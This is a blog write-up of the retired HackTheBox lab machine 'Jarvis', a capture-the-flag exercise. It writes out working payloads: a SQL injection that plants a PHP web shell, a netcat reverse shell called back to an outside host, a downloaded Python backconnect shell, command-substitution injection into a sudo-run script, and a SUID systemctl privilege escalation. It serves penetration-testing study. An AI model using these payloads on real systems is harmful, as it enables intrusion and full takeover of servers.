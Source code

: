 ```yaml
---
layout:     post
title:      "HackTheBox: Jarvis"
date:       2019-11-10 00:00:00
author:     J
summary:    I love you 3000
categories: HackTheBox
thumbnail:  cube
tags:
 - OSCP
 - HackTheBox
 - Linux
---
```




Jarvis was a really satisfying box to root, in the sense that it's not too CTF-ish and had an initial foothold method that allowed me to learn something new. It is rated as a Medium difficulty box and I feel that it's slightly on the easier side of that spectrum. This will be the last HTB writeup for a while as I will begin working on certifications.


Anyone who knows me personally would know that I dislike CTF style boxes where you have really annoying key pieces of the puzzle hidden in strange places like within an image(lol it's currently on a recently retired box). Anyway, here is the information on the box we're tackling today:





![1568728913954](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728913954.png)




Now lets get down to business



---



## Enumeration & Initial Foothold



We start by enumerating the ports open on the box:



~~~bash
nmap -sV -sC -p- oN nmap 10.10.10.143
~~~



~~~bash
# Nmap 7.70 scan initiated Wed Jul  3 07:52:10 2019 as: nmap -sV -sC -p- -oN nmap 10.10.10.143
Nmap scan report for jarvis (10.10.10.143)
Host is up (0.55s latency).
Not shown: 65530 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp    open     http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
5355/tcp  filtered llmnr
31722/tcp filtered unknown
64999/tcp open     http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jul  3 08:38:07 2019 -- 1 IP address (1 host up) scanned in 2757.65 seconds

~~~





Typically when port 80 is open, it is the first thing I explore after searching through the software versions on the internet for known vulnerabilities.



Running `gobuster` returns a `phpmyadmin` login page, but for this case it's not required for entry so I have omitted that.



Crawling through the website, we notice that the `room.php` page takes an input parameter `cod` and uses it to render the room type. Injecting a `'` and appending it to the end breaks the page. Hmm..




![1568723719909](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723719909.png)



We can further test if the previous example was a false positive using the `order by` statement. Appending a `order by 1` returns the page as per normal. We might have an SQL injection vulnerability here!



![1568723834604](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723834604.png)



We can increment the number we `order by` to test how many columns are returned by the SQL database. When this number reaches 8, the page gets broken again. We now know that there are 7 columns returned from the SQL query.



![1568723867745](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723867745.png)



So we know that the web application runs `php`, we have an SQL injection vulnerability, and that it selects 7 columns of data from whatever table it's querying.



Here we can write a file echoing(don't forget url encoding!) a simple php 1 liner RCE code into a file on the server. `/var/www/html` is one of the most common directories hosting web pages so we can try that first. We can use a `union select` command to add additional data to be returned by the SQL query. If the number of columns matches the actual number that's returned by the query, an additional row will be appended to the results(I'll probably have to make another post on explaining this). So, we select 6(+1 payload to make 7) to create our query:



~~~
http://10.10.10.143/room.php?cod=1+union+select+1,2,3,4,5,6,'<%3fphp+system($_GET["cmd"])%3b+%3f>'+into+outfile+'/var/www/html/cmd.php'+%23
~~~



![1568723959570](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568723959570.png)



After that, we can try accessing our new file at `10.10.10.143/cmd.php` and note that it did create something:





![1568728086337](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568728086337.png)





Now that we have the php file on the server, we can execute our netcat reverse shell back to our listener:

~~~bash
# create listener
nc -lvp 443

# call our reverse shell(please use a different terminal for this, don't do it in the listner)

curl -X GET "http://10.10.10.143/cmd.php?cmd=nc%2010.10.14.4%20443%20-e%20/bin/sh"
~~~



Of course you don't have to use `curl`, just entering the payload in the browser works just as well. 



In any case, we get a shell!

![1568724141929](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724141929.png)





---



## Privilege Escalation - User



We upgrade to a prettier shell, and run a `sudo -l` to check out sudo privileges



![1568724227472](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724227472.png)



An interesting command was found within this `simpler.py` file.



![1568724294794](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724294794.png)





As we can see, the file checks for bad characters. However, a key character `$` was missing. Using command substitution, we can still get it to execute scripts.



Here I go back to using the trusty  set of python pty shell scripts by infodox, which can be found [here][1]. As shown in the writeup on Writeup, these scripts allow us to spawn a reverse shell from the target to the host. The result allows for a fully interactive shell, inclusive of tab autocomplete, history, and such.



We first edit`tcp_pty_backconnect.py` with our IP address, and then host the file on our HTTP server using port of our choosing.



~~~bash
python -m SimpleHTTPServer 1234
~~~





![1568724965720](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568724965720.png)





After which, we enter a world-writable directory where we can work out of;  `/tmp` is usually my favourite. Inside we can use `wget` to download our script



~~~bash
wget 10.10.16.53:1234/tcp_pty_backconnect.py
~~~



![1568725392837](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568725392837.png)



We can then setup the listener to catch the reverse shell by binding it to the IP and port previously specified:

~~~bash
python tcp_pty_shell_handler.py -b 10.10.16.53:31337 
~~~



### Simpler.py



We run the script as the user `pepper`, and see the usage instructions. Here we know that `-p` will call the function we want to exploit.



![1568726080425](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726080425.png)



~~~bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py  
# then
8.8.8.8 $(python /tmp/tcp_pty_backconnect.py)

~~~



On the listener we previously set up, we see that we got our user shell.



![1568726351083](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726351083.png)



---



## Privilege Escalation - Root



Doing the usual checks, we see that `systemctl` has an SUID bit set and will run as root.



![1568726493292](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568726493292.png)



We check this very lovely website called [gtfobins][2] and see that `systemctl` can be used to elevate the user privileges if SUID bit or if `sudo` can be run on it as root.



Kudos to the creators of this box, whether intentional or not. There was one last hoop to jump through.



Following the steps in [gtfobins][2] did not escalate our shell to root.  Poo :(



However, if you think about it. What's the difference between the following? :

1. Have SUID bit set as root
2. Can SUDO as root with no password



Basically, the main difference is simply the lack of the `sudo -u root` or `sudo` prefix when running the binary or script.

So this basically means, we can try the methods described that were meant for the `sudo` section of the page, just removing the word `sudo` from the command(s).



Here, in plain text for your copy paste pleasure:

~~~bash
TF=$(mktemp)
echo /bin/sh >$TF
chmod +x $TF
SYSTEMD_EDITOR=$TF systemctl edit system.slice
~~~



And executing these gets us our root shell. From here we can go to the respective directories and get the flags required. :)



![1568727190405](https://github.com/Dreamscent/Dreamscent.github.io/raw/master/images/Jarvis/1568727190405.png)



Cya guys next time. I love you 3000!





[1]: https://github.com/infodox/python-pty-shells

[2]: https://gtfobins.github.io/gtfobins/systemctl/






